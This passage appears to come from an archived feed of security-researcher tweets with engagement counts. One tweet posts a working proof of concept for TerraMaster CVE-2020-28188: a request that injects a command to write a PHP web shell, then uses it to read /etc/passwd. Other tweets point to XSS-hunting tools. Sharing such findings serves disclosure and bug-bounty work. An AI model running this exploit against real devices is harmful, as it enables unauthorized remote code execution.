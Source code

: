 * https://github.com/orangetw/My-Presentation-Slides

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>349</code></td>
<td>Favorites: <code>1116</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1360538195532730370 _at 2021-02-13 10:35:58_**
<blockquote>
RCE TerraMaster CVE-2020-28188  
V4.1.30/4.2.06

POC: 
GET /include/makecvs.php?Event=http|echo "&lt;?php echo(passthru(\$_GET['cmd']));?&gt;" &gt;cmd.php|

GET /cmd.php?cmd=cat%20/etc/passwd
</blockquote>


<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---

# nav1n0x
**https://twitter.com/nav1n0x/status/1360537189747204096 _at 2021-02-13 10:31:58_**
<blockquote>
Another one from @hahwul's #XSpear. A great tool to find XSS in an organized way. I found the simplest #XSS in one of India's top travel websites. @DevanshBatham's #ParamSpider was the feeder and XSpear was the finder. 

https://t.co/IY0NG0B0th #bugbountytips #BugBounty https://t.co/ek8XbCJDrR
</blockquote>

* https://github.com/hahwul/XSpear

<table><tr>